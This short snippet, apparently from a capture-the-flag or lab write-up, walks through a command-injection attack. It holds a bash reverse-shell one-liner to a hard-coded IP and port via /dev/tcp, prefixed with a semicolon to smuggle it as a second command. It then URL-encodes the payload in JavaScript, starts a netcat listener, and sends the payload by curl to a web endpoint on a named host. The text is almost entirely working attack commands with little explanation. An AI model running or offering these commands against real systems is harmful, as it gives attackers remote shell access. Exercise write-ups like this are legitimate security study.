 Reverse shell :

```sh
;/bin/bash -l > /dev/tcp/90.51.30.60/4242 0<&1 2>&1
```

Convert to url (JS) :

```js
encodeURIComponent(";/bin/bash -l > /dev/tcp/90.51.30.60/4242 0<&1 2>&1")
```

Listen with netcat

```sh
nc -lvp 4242
```

```sh
curl https://cyber.ndl.nponsard.net/whitelist/%3B%2Fbin%2Fbash%20-l%20%3E%20%2Fdev%2Ftcp%2F90.51.30.60%2F4242%200%3C%261%202%3E%261
```

